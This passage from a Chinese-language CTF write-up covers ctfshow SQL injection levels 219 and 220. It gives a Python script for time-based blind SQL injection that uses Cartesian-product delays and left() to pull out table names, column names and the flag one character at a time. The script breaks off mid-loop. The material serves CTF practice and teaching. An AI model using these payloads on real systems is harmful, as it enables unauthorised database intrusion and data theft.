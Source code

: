 很难，但还是出来了。跑这个不要挂魔法，容易延迟容易误报  

## web 219 rlike

过滤了rlike

在[【大佬博客】](https://www.cdxy.me/?p=789)里有用`rlike`

![219](https://the0n3.top/medias/show-sql/219.png)


这题还是用上题脚本跑了

## web 220

参考：[【Practice - CTFSHOW WEB入门 SQL注入篇】](https://hextuff.dev/2021/07/29/ctfshow-web-getting-started-sql-injection/#web220)

过滤了`substr`，还可以使用`right,left, mid`

励志要自己写脚本🤐

```python
import string
import time
import requests

url = "http://bbdb689b-386c-435c-ae43-e707b9f65a76.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxcac
# payload = "left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{})='{}'"
# 列名 flagaabcc
# payload = "left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{})='{}'"
# flag
payload = "left((select flagaabcc from ctfshow_flagxcac limit 0,1),{})='{}'"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
        "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B,"
              f"information_schema.tables C),1) "
    }
    time_s = None
    time_e = None
    while True:
        time_s = time.time()
        try:
            _ = requests.post(url, data=data)
        except:
            continue
        time_e = time.time()
        break
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


letters = "{}_-" + string.ascii_lowercase + string.digits
index = 1
result = ""

while True:
    for letter in letters:
        load = payload.format(index, result + letter)
```